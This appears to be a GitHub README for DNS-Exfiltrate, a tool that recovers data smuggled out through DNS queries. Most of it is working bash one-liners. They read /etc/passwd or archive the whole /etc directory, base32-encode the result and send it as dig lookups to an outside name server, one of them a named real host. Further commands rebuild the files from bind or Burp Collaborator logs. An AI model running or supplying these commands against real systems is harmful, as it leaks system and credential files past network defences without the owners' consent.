 # DNS-Exfiltrate

Parses bind query or Private Burp Collaborator logs to exfiltrate data. Note that you will get more reliable results by specifying the name server via `dig @`...

Use cases (bash):

## Exfiltrate a file:

```
cat /etc/passwd | base32 -w 63 |tr -d = | while read a; do dig @<DNS Server> $a.<DNS Server>; done;
```

To recover the file (on a bind DNS server):

```
./dns-parse.py <DNS Name> query.log bind | base32 -d | zcat
```

To recover the file (on a private Burp Collaborator server):

```
./dns-parse.py <DNS Name> collaborator.log collaborator | base32 -d | zcat 
```

## Exfiltrate a compressed file:

```
cat /etc/passwd | gzip - | base32 -w 63 |tr -d = | while read a; do dig @<DNS Server> $a.<DNS Server>; done;
```

To recover/unzip the file (on a bind DNS server):

```
./dns-parse.py <DNS Name> query.log bind | base32 -d | zcat
```

To recover/unzip the file (on a private Burp Collaborator server):

  ```
./dns-parse.py <DNS Name> collaborator.log collaborator | base32 -d | zcat 
```

## Exfiltrate a compressed tar archive of a directory:

```
tar czf - /etc | base32 -w 63 |tr -d =| while read a; do dig @ns1.eej.me $a.e.ns1.eej.me; done;
```

